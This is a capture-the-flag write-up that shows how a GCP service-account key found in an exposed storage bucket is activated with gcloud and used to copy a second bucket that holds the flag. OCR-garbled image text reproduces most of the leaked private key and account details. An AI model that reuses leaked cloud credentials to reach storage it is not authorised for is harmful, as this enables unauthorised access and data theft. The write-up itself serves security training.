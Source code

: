 # Out of the Bucket 2
> This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

## About the Challenge
We got a exposed bucket GCP and inside the bucket there's a GCP credentials


[Image extracted text: ~biay
D ' COIJci LoJcooalCdo,#JC
1 0 / 0
Diay
<Size>29</Size>
</Contents>
<Contents>
<Keyzsecret/funny
json< /Key>
<Generation>1705174300570372</Generation>
<MetaGeneration>1</MetaGeneration>
<LastModified-2024-01-13719:31:40.6072</LastModified>
<ETag>
d1987ade72e435073728c0b6947a7aee"< /ETag>
<Size>2369</Size>
</Contents>
<Contents>]



[Image extracted text: type"
service
account
project
id"
out-of-the-bucket
private_key_
id
2leOc4cSef7ld9df424d40eed4042ffc2e0af224
private_key
Lc t
BEGIN
PRIVATE
KEY--
nMIIEVQIBADANBgkqhkiGIwOBAQEFAASCBKcwggS jAgEAAoIBAQDWxpWEDNiWgMzz | nxDDF64CspqiGPxkrHfhs4 /PX8BrxNjUMPF
G4hmOVOpGblAkfuE n62NErJVZIgQCowrBdFGbPxQc
IRQJKZrCFfKOWSHLvnngr4UiSCSr6OM33dfpD+v
nQSLkEQheYcXmHwh/W=
t4t7urC2i7OJdH+Y4Qw_
AZJNULo/SwWl Intx8i3FIDAgMBAAECggEABaGapVCO6RVNaQltffL+d7MS8296GHWmX34B6bqDlP7S nhe
hpx43LlKDUKogfs8 jgVMOANVEyDfhrYsVQWDZ5T60Qzp7bP2
nOzSDSACZpFzdflvXzOhero8ykwM3keQiCIKWYkeMGSX8oHyWr lf
udtAyebt /PC4HS9FLBioo3bAy8vL3o0Ob7+raVyJQQKBgQD3 IWaDSqSs 7HOrlOs_
In7IUhPlTDYhbLh 7pupbzDGzu9wCFCMItwTEm
CHkbP461CLSQoT
nTS6TO6Fs4xvnTKtBdPeisSgiIwKBgQDeetmpSgsk8ynnp6fx0 / LiuO3AzxpTYcP8
nixaXLQI6CI4jQP2+P+F
WL76FTZbubIdNm4LQyxvDeK82xQy18
nszeOxfJeoQKBgGQqSoxdwwbtFSLkbrAnnJIsPCvxHvIhskPUslyVNjKjpBdS28GJInej3
KIINOcA8ef7uSB3QYXug8LQi o2z7trMlpzq3nAoGAMPhD | nOSMqRsrc6xtMivzmQmWDSzgKX9OAAmEZ6rVebPufFYF jmHGFDqlRhc
EeZEZvbTjnyBgjcz26pJyVlvpU4bbstshUSaECgYEA7ZESXuaNVOEr 3emHiAz4 |noEStvFgzMDi8dILH+PtC3JZEnguVjMy2fceQH}
69kdpvJ3J556
nJWgkWLCz8hxtLcQPfDJuOYE=
n-
~END
PRIVATE
KEY_
In
client
email
image-server@out-of-the-bucket
iam.
gserviceaccount _
com
"client
id
102040203348783466577
auth uri
https
laccounts.google.com/o/oauth2/auth
token
uri
'https : / /oauth2
googleapis
com/token
auth_provider_
x509
cert
url
https
Iwww
googleapis
com/oauthz/vllcerts
"client
x509
cert
url"
'https : / /WWW. googleapis
com
robot/vl/metadata_
x509 / image-server84lout-of-the
universe
domain
googleapis.com']


## How to Solve?
First, we need to deploy Google Cloud SDK docker

```bash
docker run -it gcr.io/google.com/cloudsdktool/cloud-sdk:latest /bin/bash
```

And then inside the container, import the GCP credential

```bash
gcloud auth activate-service-account image-server@out-of-the-bucket.iam.gserviceaccount.com --key-file=file.json
gcloud config set project out-of-the-bucket
```

If we ran `gcloud storage list` command, we will see there are 2 buckets:


[Image extracted text: #
gcloud storage
ls
gs: / flag-images/
gS : / /out-of-the-bucket/]


Hmmm we `flag-images` bucket looks interesting, try to download every file inside that bucket using this command

```
gsutil -m cp -r gs://flag-images .
```


[Image extracted text: #
gsutil
-m
Cp
-r
gs: /  flag-images
Copying gs: / flag-images/256x192/ad.png_
Copying gs: / flag-images/256x192/ag.png_
Done
Copying gs: / /flag-images/256x192/ae-png
Done
Copying gs: / /flag-images/256x192/af .png
Done
Copying gs: / /flag-images/256x192/ai.png
Done
Copying gs: / flag-images/256x192/al.png-
Done
Copying gs: / /flag-images/256x192/am.png
Done
Copying gs: / /flag-images/256x192/a0.png
Done
Copying gs: / /flag-images/256x192/aq-png
Done
Copying gs: / flag-images/256x192/ar
png
Done
Copying gs: / /flag-images/256x192/as.png
Done
Copying gs: / flag-images/256x192/at.png-
Done
Copying gs: / /flag-images/256x192/bg-png
Done
Copying gs: / flag-images/256x192/aw.png_
Done]


This will download the file recursively and the flag is located in the `xa.png` file


[Image extracted text: xa.png
uoftctfisJrvlc3_Acceun7s_c4n_83_uns4f34]


## Flag
```
uoftctf{s3rv1c3_4cc0un75_c4n_83_un54f3}
```